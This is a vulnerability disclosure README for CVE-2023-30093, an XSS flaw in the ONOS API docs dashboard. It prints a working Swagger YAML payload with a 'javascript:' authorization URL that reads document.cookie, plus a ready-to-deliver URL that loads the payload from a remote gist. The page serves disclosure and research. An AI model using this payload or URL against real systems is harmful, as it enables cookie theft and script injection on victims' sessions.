# CVE-2023-30093

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-30093: [@edoardottt Youtube video](https://www.youtube.com/watch?v=jZr2JhDd_S8)

Vulnerable endpoint: http://localhost:8181/onos/v1/docs/

Payload: 
```yaml
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardoottavianelli.it
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
```

Malicious URL ready to be delivered: http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/917636d9b210d0b15c3a10cfff35ab33/raw/659a4ae263287dff740f386db4533ca042203cfe/onos-xss2-poc.yaml

References
------
- https://www.edoardoottavianelli.it/CVE-2023-30093
- https://nvd.nist.gov/vuln/detail/CVE-2023-30093
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30093
- https://github.com/advisories/GHSA-q63q-hwf6-3mw6
- https://www.tenable.com/cve/CVE-2023-30093
- https://www.opencve.io/cve/CVE-2023-30093
- https://avd.aquasec.com/nvd/2023/cve-2023-30093/

<br>

Useful links while researching for this CVE:

- https://github.com/swagger-api/swagger-ui/pull/3848
- https://github.com/swagger-api/swagger-ui/issues/3847
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef
- https://security.snyk.io/vuln/npm:swagger-ui:20171031
- https://security.snyk.io/vuln/npm:swagger-ui:20160721
- https://security.snyk.io/vuln/npm:swagger-ui:20160901